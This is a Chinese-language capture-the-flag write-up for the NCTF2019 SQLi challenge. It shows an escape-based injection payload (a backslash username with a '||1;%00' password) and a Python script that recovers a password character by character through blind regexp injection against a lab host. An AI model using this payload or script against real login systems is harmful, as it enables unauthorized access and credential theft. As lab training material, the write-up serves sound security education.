



# [NCTF2019]SQLi

## 知识点

`SQL注入`

`转义注入`

`正则regexp`

## 解题

进入首页后发现有个登录框和`SQL语句`，尝试各种闭合注入失败，发现过滤的有点多


扫目录发现`robots.txt`，在`robots.txt`里找到`hint.txt`，发现了过滤的`正则表达式`



要求密码正确即可，尝试对`username`处的`'`进行转义，使用`;%00`注释

```sql
select * from users where username='\' and passwd='||1;%00'
```

那么这个时候的sql命令就变为

```sql
where username='xxxx'||1
```

条件为`真`时。就会跳转,条件为`假`时。就会回到登陆页

我们可以通过`regexp`来一位位判断密码，编写脚本

```python
import requests
from string import digits, ascii_letters
from urllib.parse import unquote
import time


guess_str = ascii_letters + digits + '_'

passwd = ""

url = 'http://656ae5ec-ca81-4c0d-ba70-db2c22b32f15.node5.buuoj.cn:81/index.php'

zero = unquote('%00')


for i in range(50):     # 尝试长度
    print(i)
    for j in guess_str:
        payload = passwd
        payload += j

        data = {
            "username": '\\',
            "passwd": '||/**/passwd/**/regexp/**/"^%s";%s' %(payload, zero)
        }
        
        print(data)

        resp = requests.post(url, data=data, timeout=8)
        
        if "welcome.php" in resp.text:
            passwd += j
            print(passwd)
            break
        time.sleep(0.5)     # 防429

print(passwd)
```

最后注入发现密码为`you_will_never_know7788990`



将密码输入即可获得`flag`

